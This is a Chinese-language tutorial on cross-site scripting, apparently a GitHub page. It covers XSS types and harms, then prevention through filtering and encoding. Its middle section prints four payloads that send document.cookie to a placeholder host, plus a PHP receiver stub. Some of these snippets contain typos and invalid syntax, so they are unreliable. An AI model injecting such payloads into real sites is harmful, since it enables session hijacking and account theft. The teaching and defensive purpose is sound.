# xss

XSS, 即为（Cross Site Scripting）, 中文名为跨站脚本, 是发生在目标用户的浏览器层面上的，当渲染DOM树的过程成发生了不在预期内执行的JS代码时，就发生了XSS攻击。

**xss的危害：**

(1)网络钓鱼，包括获取各类用户账号

(2)通过document.cookie盗取cookie

(3)会话劫持，从而执行任意操作，例如进行非法转账，强制发表日志、发送电子邮件等

(4)网页挂马

(5)弹出广告，刷流量

(6)篡改页面信息,使用js或css破坏页面正常的结构与样式,，删除文章等

(7)进行大量用户攻击，如DDoS攻击

(8)传播跨站脚本蠕虫

(9)获取用户的客户端信息，例如ip地址，浏览历史，开放端口号等

(10)结合其他攻击，例如CSRF，进行进一步攻击

...

### 1.xss分类

(1)反射型

反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。

(2)存储型

存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。

最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

### 2.xss攻击方式解析

(1)cookie 盗取

原理：
  
在一个具有存储型xss(或者反射型)的网站里，攻击者就可以向漏洞页面写入可以窃取cookie的恶意代码，当用户浏览页面时，攻击者就能获取用户浏览器中的cookie信息。

攻击者可以用以下几种方式窃取cookie信息：

```html
//方式一
<script>document.location="http://www.test.com/cookie.php?cookie="+document.cookie</srcipt>

//方式二
<img src="http://www.test.com/cookie.php?cookie="+document.cookie></img>

//方式三
<script>
  new Image().src="http://www.test.com/cookie.php?cookie="+document.cookie
</script>

//方式四
<script>
 document.write('<img src="http://www.test.com/cookie.php?cookie="+document.cookie/>')
</script>
```

在远程服务器上有记录和接受cookie信息的文件：

```php
<?php
$cookie=$_GET('cookie');
...
```

攻击者获取cookie信息后，还要与web系统建立会话，才能侵入用户的账户，建立会话通常需要能修改cookie的工具，例如桂林老兵cookie欺骗工具，firefox的浏览器插件firecookie等。

### 3.xss 预防

- XSS Filter
  xss本质是web应用服务的漏洞，解决问题的根本是在web应用程序的代码中消除xss漏洞
  - input Filtering
    - 客户端输入验证
    - 输入过滤消毒，把敏感字符串如<,>,&,",#，javascript,expression等过滤掉
  - output Filtering
    - 输出编码，将敏感字符转化为html实体编码，如<转化为&lt;
- 黑名单和白名单
  - 黑名单是明确指定哪些输入不能通过，但是很难预防，太多可能性的xss类型无法完全预防
  - 白名单是指定特定的输入格式能通过，其他的都不能，但减少了用户输入的可能性






